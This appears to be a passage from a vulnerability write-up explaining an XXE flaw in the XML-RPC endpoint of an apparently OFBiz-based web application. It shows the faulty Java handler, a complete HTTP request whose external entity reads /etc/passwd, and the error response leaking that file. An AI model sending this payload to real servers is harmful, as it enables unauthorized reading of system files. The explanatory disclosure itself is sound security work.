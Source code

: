 ```java
public XmlRpcHandler getHandler(String method) throws XmlRpcNoSuchHandlerException, XmlRpcException {
    ModelService model = null;
    try {
        model = dispatcher.getDispatchContext().getModelService(method);
    } catch (GenericServiceException e) {
        Debug.logWarning(e, module);
    }
    if (model == null) {
        throw new XmlRpcNoSuchHandlerException("No such service [" + method + "]");
    }
    return this;
}
```

Once again, the XXE vulnerability is caused by improper error handling. By referencing a file on the local file system, we can simply include its contents in the application's response. The exploit is as simple as it gets:

```http
POST /webtools/control/xmlrpc HTTP/1.1
Host: vulnerable.host
Content-Type: application/xml
Connection: close

<?xml version="1.0"?>
<!DOCTYPE x [
<!ENTITY disclose SYSTEM "file:///etc/passwd">
]>
<methodCall><methodName>
&disclose;
</methodName></methodCall>
```

The target server will respond with the following error message, disclosing the contents of the target file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse xmlns:ex="http://ws.apache.org/xmlrpc/namespaces/extensions">
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value>
            <i4>0</i4>
          </value>
        </member>
        <member>
          <name>faultString</name>
          <value>No such service [
            root:x:0:0:root:/root:/bin/bash
            daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
            bin:x:2:2:bin:/bin:/usr/sbin/nologin
            ...
            ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash
            ]</value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```
